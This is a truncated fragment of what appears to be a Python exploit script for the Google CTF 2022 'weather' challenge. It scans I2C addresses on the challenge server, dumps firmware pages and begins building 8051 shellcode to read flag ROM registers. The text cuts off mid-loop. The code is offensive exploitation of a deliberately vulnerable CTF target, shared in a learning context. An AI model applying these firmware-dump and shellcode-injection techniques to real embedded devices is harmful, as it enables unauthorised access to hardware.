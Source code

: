 ```python
        a = io.recvuntil(b"?")
        if b'device not found' not in a:
            print("[+] %s: %s " % (str(test),str(i)))
            print(a)
            
#scan()
    
'''
➜  python3 exp.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
[+] 101153: 33 
b' i2c status: transaction completed / ready\n2 0 6 2 \n-end\n?'
[+] 101221: 101 
b' i2c status: transaction completed / ready\n22 22 21 35 \n-end\n?'
[+] 101228: 108 
b' i2c status: transaction completed / ready\n3 249 0 0 \n-end\n?'
[+] 101230: 110 
b' i2c status: transaction completed / ready\n78 0 0 0 \n-end\n?'
[+] 101231: 111 
b' i2c status: transaction completed / ready\n81 0 0 0 \n-end\n?'
[+] 101239: 119 
b' i2c status: transaction completed / ready\n37 0 0 0 \n-end\n?'
'''

def dump():
    f = open('firmware.bin','wb')
    io = remote("weather.2022.ctfcompetition.com",1337)
    io.recvuntil(b"?")
    for i in range(64):
        print("[+] page: %s" % str(i))
        io.sendline(("w 101153 1 %s" % str(i)).encode())
        io.sendlineafter(b'?',b"r 101153 64")
        a = io.recvuntil(b"?")[43:-8]
        a = a.replace(b"\n",b" ")
        a = a.decode('utf-8').split(' ')
        print(a)
        assert(len(a)==64)
        for j in a:
            f.write(int(j,10).to_bytes(1,'little'))

#dump()

'''
__sfr __at(0xee) FLAGROM_ADDR;
__sfr __at(0xef) FLAGROM_DATA;
'''

flag = ''

for k in range(5):
    io = remote("weather.2022.ctfcompetition.com",1337)

    shellcode = []
    for j in range(k*8,(k+1)*8,1):
        shellcode += [0x74, j]    # mov  A, j
        shellcode += [0xf5, 0xee] # mov  FLAGROM_ADDR, A
        shellcode += [0xe5, 0xef] # mov  A,FLAGROM_DATA
        shellcode += [0xf5, 0xf2] # mov  CML6, A

    s = ''
    for i in shellcode:
        s += str(255 - i) + ' '
   
```